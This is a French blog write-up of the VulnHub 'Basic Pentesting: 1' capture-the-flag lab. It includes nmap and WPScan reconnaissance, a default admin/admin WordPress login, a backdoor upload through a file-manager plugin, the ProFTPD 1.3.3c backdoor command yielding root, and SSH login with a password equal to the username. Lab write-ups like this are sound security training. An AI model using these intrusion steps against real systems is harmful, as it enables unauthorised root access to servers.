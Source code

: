 ```yaml
---
title: "Solution du CTF Basic Pentesting: 1 de VulnHub"
date: 2018-02-05 12:09:00
tags: [CTF, VulnHub]
---
```


Ici on attaque un CTF nommé [Basic Pentesting](https://www.vulnhub.com/entry/basic-pentesting-1,216/) qui porte bien son nom. Par conséquent je ne passerais que rapidement sur l'exploitation de ce CTF.  

Au menu
-------

```
Nmap scan report for 192.168.1.48
Host is up (0.00065s latency).
Not shown: 65499 closed ports, 33 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|_  256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:14:06:50 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

La page d'index est celle par défaut d'Apache (*It works!*) mais le module buster de *Wapiti* nous laisse une piste supplémentaire :  

```
[*] Launching module buster
Found webpage http://192.168.1.48/secret
```

Il s'agit d'un blog Wordpress en version 4.9.2 (d'après la balise meta generator du code HTML)  

On remarque vite que les liens du site font référence à un hostname appelé *vtcsec* du coup on rajoute une entrée dans notre */etc/hosts*.  

#OPSecFAIL
----------

On lance un *WPScan* dessus qui trouve essentiellement que le listing est activé sur le dossier */wp-includes/* et que l'utilisateur admin est présent.  

Le dossier wp-includes n'a rien qui saute au yeux... Mais quand on essaye de se connecter sur */wp-admin* avec admin/admin... ça passe.  

A partir de là chacun à sa technique, moi j'aime bien installer le plugin [wp-file-manager](https://wordpress.org/plugins/wp-file-manager/) qui permet de gérer les fichiers (on ne voit que ceux sous la racine wordpress mais on peut uploader une backdoor).  

Bien sûr on tourne avec les droits *uid=33(www-data) gid=33(www-data) groups=33(www-data)*.  

On trouve facilement un utilisateur *marlinspike* sur le système (membre du groupe *sudo*) dont le dossier personnel est visitable.  

On trouve notamment une archive décompressée nommée *backdoored\_proftpd-1.3.3c* faisant référence [à une backdoor bien connue](https://www.aldeid.com/wiki/Exploits/proftpd-1.3.3c-backdoor).  

L'obtention des droits root est facile :  

```
$ telnet vtcsec 21
Trying 192.168.1.48...
Connected to vtcsec.
Escape character is '^]'.
220 ProFTPD 1.3.3c Server (vtcsec) [192.168.1.48]
HELP ACIDBITCHEZ
id;
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

#YOLOsecurity
-------------

Le synopsis nous invite à chercher d'autres façons d'obtenir les droits root.  

Une possibilité est d'utiliser le mot de passe *marlinspike* pour le compte du même nom :  

```
$ ssh marlinspike@vtcsec
marlinspike@vtcsec's password:
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.10.0-28-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

19 packages can be updated.
19 updates are security updates.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

marlinspike@vtcsec:~$ sudo -l
[sudo] password for marlinspike:
Matching Defaults entries for marlinspike on vtcsec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marlinspike may run the following commands on vtcsec:
    (ALL : ALL) ALL
```

Au passage ça m'a fait remarquer que [Ncrack](https://nmap.org/ncrack/) ne dispose pas d'option pour tester automatiquement l'absence de mot de passe ou un mot de passe équivalent au login alors que [cette bonne vieille Hydre](https://www.thc.org/thc-hydra/) peut le faire.  

On rajoutera à ça la présence de permissions hasardeuses :  

```
-rw-rw-rw-  1 root root    2364 Nov 16 13:02 passwd
-rw-r--r--  1 root shadow  1305 Nov 16 13:02 shadow
```

Conclusions
-----------

Simple et rapide. Une situation plus réaliste aurait été la présence d'une page avec une injection SQL permettant de retrouver le hash de l'admin Wordpress pour le casser...

*Published February 05 2018 at 12:09*
